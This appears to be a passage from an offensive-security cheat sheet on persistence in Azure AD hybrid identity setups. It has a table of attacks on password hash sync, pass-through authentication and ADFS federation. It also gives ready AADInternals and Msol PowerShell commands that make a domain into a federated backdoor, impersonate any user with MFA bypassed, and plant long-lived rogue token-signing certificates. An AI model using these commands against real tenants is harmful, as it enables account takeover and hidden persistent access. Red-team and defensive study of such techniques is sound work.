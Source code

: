 [Impersonating o365 Users avec Mimikatz](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)



## Hybrid Identity - On-Prem to Cloud

Microsoft recommends joining the Azure AD Connect server to the on-prem AD. This has significant implications for security because it means that any persistence mechanisms used for on-prem (such as *Golden Ticket, Silver Ticket, ACL Backdoors, and others*) that provide either Domain Admin (DA) on-prem or local admin on the Azure AD Connect server can be leveraged to gain Global Administrator (GA) access on Azure AD on demand.

**Exploitation Scenarios**

| Method | Action | Impact |
| --- | --- | --- |
| **Password Hash Synchronization (PHS)** | Extract credentials. | With DA on-prem or local admin on the Azure AD Connect server, extract the credentials of the MSOL account used for PHS. |
| **Pass-Through Authentication (PTA)** | Install the PTA agent. | With DA on-prem or local admin on the Azure AD Connect server, install a malicious PTA agent to verify authentications for any synced user, bypassing the need for the correct password. |
| **Federation** | Extract the token-signing certificate from the ADFS server. | With DA on-prem, extract the ADFS token-signing certificate, allowing the creation of valid SAML tokens to authenticate as any user in Azure AD. |



## Federation - Trusted Domain

> Backdoor Access with Global Administrator Privileges

If we have Global Administrator (GA) privileges on a tenant, we can add a new domain (must be verified), configure its authentication type to Federated, and configure the domain to trust a specific certificate (`any.sts` in the below command) and issuer. 

Using AADInternals:
```powershell
ConvertTo-AADIntBackdoor -DomainName domain.com
```

Get the `ImmutableID` of the user that we want to impersonate. Using the Msol module:
```powershell
Get-MsolUser | select userPrincipalName,ImmutableID
```

Access any cloud app as the user:
```powershell
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA $true
```

## Federation - Token Signing Certificate

With Domain Admin (DA) privileges on an on-prem AD, it is possible to create and import new Token Signing and Token Decryption certificates that have a very long validity. This allows us to log in as any user whose `ImmutableID` we know.

1. Run the below command as DA on the ADFS server(s) to create new certificates (default password 'AADInternals'), add them to ADFS, disable auto rollover, and restart the service:
```powershell
New-AADIntADFSSelfSignedCertificates
```
